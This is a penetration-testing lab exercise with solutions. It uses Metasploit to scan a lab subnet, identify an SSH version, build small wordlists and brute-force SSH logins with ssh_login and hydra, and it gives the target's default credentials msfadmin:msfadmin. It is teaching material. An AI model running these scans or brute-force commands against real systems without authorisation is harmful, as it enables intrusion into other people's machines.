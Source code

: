 ### Scanning with Metasploit

**Instructions**

Launch a Terminal and prepare the database.

```bash
    # Starts the PostgreSQL server
    $ service postgresql start
    # Initializes the Metasploit database
    $ msfdb init
    $ msfconsole
    msf > workspace -a pillaging
    [*] Added workspace: pillaging
```

Launch `msfconsole`, then and perform a `db_nmap` scan to discover hosts and services for the `192.168.11.0/24` subnet. Verify that your scans identify the host you exploited in the previous session.

`msf > db_nmap -sS -O 192.168.11.0/24`

  - Use a scanner to determine which version of SSH is running on the target host.

    **Hint**: `scanner/ssh`.

```bash 
msf auxiliary(scanner/portscan/syn) > search scanner/ssh
msf use auxiliary/scanner/ssh/ssh_version
msf set RHOSTS 192.168.11.8
msf set THREADS 10
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.11.8
msf auxiliary(scanner/ssh/ssh_version) > run
```
Use the module to determine if the target is vulnerable to a brute-force attack.

    **Hint**: `check`

Create custom wordlists. Add `msfadmin` to the list of usernames and passwords.

**Hint** Use only the last three user names from the common.usr file and the last five passwords from the default.pwd file found in the `/usr/share/ncrack` directory. 

  ```bash 
  msf use auxiliary/scanner/ssh/ssh_login
  msf auxiliary(auxiliary/scanner/ssh/ssh_login) > cd /usr/share/ncrack
  msf auxiliary(auxiliary/scanner/ssh/ssh_login) > tail -n 5 default.pwd > short.pwd
  msf auxiliary(auxiliary/scanner/ssh/ssh_login) > tail -n 3 common.usr > short.usr
  msf auxiliary(auxiliary/scanner/ssh/ssh_login) > echo "msfadmin" >> short.pwd
  msf auxiliary(auxiliary/scanner/ssh/ssh_login) > echo "msfadmin" >> short.usr
```             
    
Exploit the host.
- `msfadmin:msfadmin`
Use the credentials you discovered to log into the target.

**Questions:**

Review the answers to the exercise questions:

- Which command would you use to determine the target's SSH version _without_ using Metasploit?

   **Solution**: `ncat Victim IP Address> 22` and wait for the banner.

- Which command would you run to perform a brute-force attack _without_ using Metasploit?

   **Solution**: `hydra -L /usr/share/ncrack/short.usr -P /usr/share/ncrack/short.pwd ssh:<Victim IP Address>`.

- Name one advantage to using Metasploit's scanning modules over Nmap.

   **Solution**: Metasploit's scanning modules can be used for precise version scans right within Metasploit. Nmap can do this via Nmap Scripts, but `scanner` modules tend to integrate better with Metasploit's database and other modules.

- Name one disadvantage to using Metasploit's scanning modules over Nmap.

   **Solution**: Metasploit's scanning modules are nowhere near as flexible as Nmap. It only offers six port scans—none of which are UDP. Nmap is a better tool for port scanning. Metasploit can be useful for specific version scans.
